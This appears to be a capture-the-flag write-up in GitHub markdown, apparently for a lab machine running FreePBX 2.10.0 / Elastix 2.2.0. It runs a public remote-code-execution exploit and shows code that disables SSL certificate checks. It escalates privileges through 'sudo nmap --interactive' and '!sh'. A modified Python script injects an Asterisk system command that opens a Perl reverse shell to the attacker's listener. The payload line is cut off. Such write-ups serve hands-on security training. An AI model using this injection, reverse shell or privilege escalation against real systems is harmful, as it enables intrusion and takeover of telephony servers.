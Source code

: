 ## 1 Exploit  FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution, asterisk user: 
**python 18650.py**

![b7](https://user-images.githubusercontent.com/15195048/93913798-724d3300-fcba-11ea-9505-d127e73943fc.png)


Error: ssl certificate. After searching in google:
If you just want to bypass verification, you can create a new SSLContext. By default newly created contexts use CERT_NONE.

**Modifications:**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
import urllib2 
import ssl

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

urllib2.urlopen("https://your-test-server.local", context=ctx)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Resource:https://stackoverflow.com/questions/19268548/python-ignore-certificate-validation-urllib2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo -l
nmap --interactive
sudo -l 
sudo nmap --interactive
!sh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I tried several python libraries and funtions in order to ignore and bypass ssl Certificate but with no luck! Some people say that the synchronization of time could be helpful but this is not possible due to our vpn connection!

**Solution: Pass the requests through BurpSUITE**
**Notes:**
curl, dirb έχουν -k #ignore certificates
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
import requests
rhost="10.10.10.7"
lhost="10.10.14.9"
lport=8888
extension="233"

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%>
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

r = requests.get(url, proxies=proxies, verify=False)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 